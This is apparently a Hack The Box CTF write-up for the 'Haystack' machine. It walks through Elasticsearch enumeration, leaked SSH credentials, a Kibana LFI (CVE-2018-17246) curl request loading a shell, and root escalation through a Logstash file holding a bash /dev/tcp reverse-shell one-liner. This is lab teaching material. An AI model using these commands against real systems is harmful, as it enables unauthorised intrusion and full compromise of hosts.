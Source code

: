 +++
author = "Nick"
categories = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
date = 2019-11-02T15:51:17Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-1.png"
slug = "hack-the-box-haystack"
summary = "Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!"
tags = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
title = "Hack The Box - Haystack"

+++


Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!

As usual, we start off with a standard nmap scan ``` nmap -sC -sV -oA ./haystack_scan 10.10.10.115 ``` 

We get back a small amount of results.
```
Nmap scan report for 10.10.10.115
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT     STATE      SERVICE VERSION
22/tcp   unfiltered ssh
80/tcp   unfiltered http
9200/tcp unfiltered wap-wsp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.53 seconds
```

The first things we'll do is take a peek at what's running on port 80. When we browse to it we get a picture of a needle... in a haystack. Awesome. Nothing really in the source and nothing crazy about the image either. We'll run a quick dirbuster against the page and see what comes back.

To do that we'll run ```dirb http://10.10.10.115/ /usr/share/wordlists/dirb/common.txt ```This will just check for what might there. Once this comes back maybe we'll run it again looking for .html, .php and other file types.

While that runs, we curl port 9200 and we get back some json from an Elasticsearch install. Which means that Elasticsearch REST API is listening on this port. We can probably use this to run some queries.

First we'll try to get the list of indices, keeping in mind I'm working on the free labs these results tend to vary. We'll head over to the browser on port 9200 and simply use the '_cat/indices?v' on our url to list them.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-2.png" >}}

We see our standard .kibana index as well as quotes and bank. Lets get the content of these. We can do it in two ways. The first is by just putting our query into the browser. The second is by using curl. We'll craft our request by using the [Elasticsearch documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/docs.html). We want to target the quotes index first. So we'll use the search function and the size parameter to get the contents of the index. ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty'``` We use the ?size parameter to specify the size, in this case we'll use 500 since we know there are 253 entries. The &pretty on the end simply formats the JSON in a standard fasion. Once we send the request we get back a ton of data. We'll pipe the data out to a text file for saving: ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty' > quotes.txt```

Once we open the file, we see just about everything is in Spanish. However, before we translate it, we'll simply page through it for anything that might stick out.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-3.png" caption="Hmmm... 'I have to save the password for the machine'" >}}

This is base64 encoding, so it's unlikley that this string is the password however it does decode to 'user: security'. So we have a username but what about a password? As we keep skimming through the data, we find another:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-4.png" caption=""This key cannot be lost, I keep it here"" >}}

This decodes to pass: spanish.is.key. Well it seems we have a username / password combination, lets see if SSH is going to work for us. Sure does!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-5.png" >}}

Next thing we'll do is run LinEnum to see what we're working with. We'll start up a python server with ```python -m SimpleHTTPServer``` and download our LinEnum script to a tmp directory. Once we have the output we can parse it for anything that could let us escalate. I didn't really see much aside from a user named kibana with no logon services. Some quick googling around leads us to this [Kibana LFI](https://github.com/mpgn/CVE-2018-17246). Great, time to read up on it and see if we can get it to work. The first thing we need to do is check which port the backend service is running on, which by default is 5601 To do that we can look at the kibana.yml. So we issue ```cat /etc/kibana/kibana.yml | grep 5601 -n1```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-6.png" >}}

Sure enough, default port. Before we can launch the LFI we need to upload a shell. In this case, we'll use the one provided in the github. Now that we've created shell.js we can run this LFI against it using cURL. ``` curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../tmp/1/shell.js' ```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-7.png" >}}

Our netcat session lights up and we have a connection back as kibana. Now we're going to want to spawn a proper terminal session. We do this by making python do our work for us: ```python -c 'import pty; pty.spawn("/bin/sh")' ```. We now have an upgraded account, kibana. Lets run LinEnum again and see what we get back.

It finishes running and we see that we have write access to /opt/kibana/ which is new. So now what? We do some research on how kibana functions and we notice that we have access to read the files in /etc/logstash/conf.d where we didn't before. This is great, now we can see how logstash rules are being processed. After viewing the input.conf file, it seems pretty clear.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-9.png" >}}

We create a file in /opt/kibana/ with the prefix of logstash_. This file will run our commands. However, to do this, we need to understand Grok. Lucky for us there is an online tool to help us out. Grok Online Debugger. So what we need to do is take the Grok pattern from the filter and apply it. Then we can issue the commands and see what we get. So in this case we're going to echo our command into that file. Netcat doesn't seem to run as this user, so we'll bash redirecting.

We'll use the following ```echo "Ejecutar  comando: bash -i >& /dev/tcp/10.10.15.125/1234 0>&1" > /opt/kibana/logstash_1.txt``` A quick break down of the command is we are telling the filter to do the command. 'bash -i' creates and interactive shell session. The '>& /dev/tcp/10.10.15.125/1234' redirects that to a system TCP socket and the '0>&1' connects the standsard input to a standard output. Giving us a shell session. Now that we've executed the above command, we just wait for the rules to fire off and we get root!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-8.png" >}}

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).





